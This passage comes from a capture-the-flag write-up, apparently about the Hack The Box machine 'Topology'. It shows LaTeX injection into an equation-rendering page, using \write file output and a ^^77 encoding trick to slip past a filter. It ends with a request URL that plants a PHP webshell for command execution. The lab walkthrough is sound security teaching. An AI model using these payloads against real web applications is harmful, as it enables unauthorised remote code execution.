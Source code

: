 To write a file, I'll need a few LaTeX commands:



    \newwrite\outfile
    \openout\outfile=cmd.tex
    \write\outfile{Hello-world}
    \closeout\outfile



To send those to Topology, I initially tried `;` as a separator, but no
separator at all works as well:



    http://latex.topology.htb/equation.php?eqn=\newwrite\outfile\openout\outfile=cmd.tex\^^77rite\outfile{0xdf%20was%20here}\closeout\outfile



When I send this, the resulting PNG is empty:

![](/img/image-20231102170149211.png)

Going over to `latex.topology.htb/tempfiles`, it's there:

![](/img/image-20231102170220688.png)

I'll change the written text to a PHP webshell, and the output filename
to `cmd.php`:



    http://latex.topology.htb/equation.php?eqn=\newwrite\outfile\openout\outfile=cmd.php\^^77rite\outfile{%3C?php%20system($_REQUEST[%27cmd%27]);%20?%3E}\closeout\outfile



On reloading, `cmd.php` is there:

![](/img/image-20231102170344705.png)

And using it as a webshell works for execution:

![](/img/image-20231102170405993.png)

There was a patch after the initial release of this box as shown in
[this
changelog](https://app.hackthebox.com/machines/Topology/changelog):

![](/img/image-20231102170451593.png)

I believe the original person to root solved by writing a webshell with
`\write` (or a similar method like `\begin{filecontent*}{shell.php}`)
and the patch was increasing the filter. But even that is bypassable
using `^^`.

## Beyond Root - Broken Graphs
